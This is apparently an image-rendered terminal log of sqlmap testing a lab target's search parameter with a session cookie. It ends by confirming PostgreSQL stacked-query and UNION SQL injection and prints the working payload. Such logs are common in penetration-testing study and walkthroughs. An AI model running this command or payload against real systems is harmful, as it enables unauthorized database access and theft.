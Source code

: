 ```bash
# sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=2jdn17htv93irv8i5sni7ppkh7"
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:05:36 /2021-03-11/

[06:05:36] [INFO] testing connection to the target URL
[06:05:37] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:05:37] [INFO] testing if the target URL content is stable
[06:05:37] [INFO] target URL content is stable
[06:05:37] [INFO] testing if GET parameter 'search' is dynamic
[06:05:38] [INFO] GET parameter 'search' appears to be dynamic
[06:05:38] [WARNING] heuristic (basic) test shows that GET parameter 'search' might not be injectable
[06:05:39] [INFO] heuristic (XSS) test shows that GET parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
[06:05:39] [INFO] testing for SQL injection on GET parameter 'search'
[06:05:39] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[06:05:42] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[06:05:43] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[06:05:45] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[06:05:46] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[06:05:48] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[06:05:50] [INFO] testing 'Generic inline queries'
[06:05:50] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[06:06:01] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] 
[06:06:41] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[06:06:41] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[06:06:49] [INFO] target URL appears to be UNION injectable with 5 columns
[06:06:50] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: search (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
```